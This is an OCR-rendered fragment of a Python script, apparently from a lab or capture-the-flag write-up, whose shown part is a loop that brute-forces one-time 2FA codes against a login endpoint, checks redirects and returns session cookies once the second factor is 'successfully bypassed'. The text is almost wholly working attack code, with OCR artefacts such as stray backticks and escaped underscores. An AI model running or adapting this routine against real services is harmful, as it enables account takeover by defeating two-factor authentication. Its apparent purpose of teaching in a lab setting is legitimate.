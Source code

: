 `            `continue

`        `print(f"Trying OTP: {otp\_str}")

`        `response = submit\_otp(session, otp\_str)

`        `# Check if the response is the login page (unsuccessful OTP)

`        `if is\_login\_page(response):

`            `print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp\_str}")

`            `continue  # Retry login and OTP submission

`        `# Check if the response is a redirect (status code 302)

`        `if response.status\_code == 302:

`            `location\_header = response.headers.get('Location', '')

`            `print(f"Session cookies: {session.cookies.get\_dict()}")

`            `# Check if it successfully bypassed 2FA and landed on the dashboard

`            `if location\_header == '/labs/third/dashboard':

`                `print(f"Successfully bypassed 2FA with OTP: {otp\_str}")

`                `return session.cookies.get\_dict()  # Return session cookies after successful bypass

`            `elif location\_header == '/labs/third/':

`                `print(f"Failed OTP attempt. Redirected to login. OTP: {otp\_str}")

`            `else:

`                `print(f"Unexpected redirect location: {location\_header}. OTP: {otp\_str}")

`        `else:

`            `print(f"Received status code {response.status\_code}. Retrying...")

\# Start the attack to try until success

try\_until\_success()



![Texto

Descripción generada automáticamente]![](img/THM-mof/Aspose.Words.585a0df3-49a0-4687-b142-e2a834135ea8.014.png)
